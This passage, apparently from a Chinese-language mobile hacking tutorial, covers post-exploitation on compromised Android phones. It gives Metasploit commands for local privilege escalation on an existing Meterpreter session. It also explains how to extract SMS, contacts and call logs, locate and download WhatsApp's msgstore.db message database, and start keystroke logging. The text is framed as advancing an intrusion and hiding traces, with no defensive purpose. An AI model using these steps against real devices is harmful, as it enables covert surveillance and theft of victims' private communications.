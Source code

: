 我们继续深入探讨手机场景下的高级玩法，这里我们将介绍更多后渗透阶段的高级技巧，以及如何维持访问和隐藏踪迹。

后渗透阶段的高级技巧
一旦通过上述方法获得了一个Meterpreter会话，我们可以进行以下高级操作：

1. 权限提升（Privilege Escalation）
在Android中，通常我们获得的权限是有限的，因为Android应用运行在沙箱中。但是，我们可以尝试利用系统漏洞来提升权限。

使用Android本地提权漏洞：在Metasploit中，有一些模块可以帮助我们提升权限。例如，exploit/android/local/目录下有一些提权模块。你可以搜索并尝试使用。

bash
# 在Meterpreter会话中，你可以使用以下命令来尝试自动提权
meterpreter > getsystem
但是，在Android上，getsystem通常不适用。因此，我们需要使用专门的Android提权模块。

bash
# 背景化当前的Meterpreter会话
meterpreter > background

# 搜索Android提权模块
msf6 > search android local

# 选择一个提权模块，例如（注意：选择适合目标系统版本的模块）
msf6 > use exploit/android/local/...

# 设置会话（将当前会话作为攻击目标）
msf6 > set SESSION <session_id>

# 执行提权
msf6 > exploit
如果提权成功，你将获得一个具有更高权限的会话。

2. 数据提取
在获得足够权限后，我们可以提取更多敏感数据。

提取短信、联系人、通话记录：使用Meterpreter内置命令。

提取社交媒体数据：对于某些应用（如WhatsApp、Telegram），如果设备已root，我们可以尝试提取其数据库文件。这通常需要知道应用数据存储的路径。

bash
# 在Meterpreter中，你可以使用以下命令来搜索文件
meterpreter > search -f "*.db" -d /data/data/com.whatsapp/

# 下载找到的数据库文件
meterpreter > download /data/data/com.whatsapp/databases/msgstore.db /tmp/
提取键盘记录：使用Meterpreter的keyscan功能，但需要先启动键盘记录器。
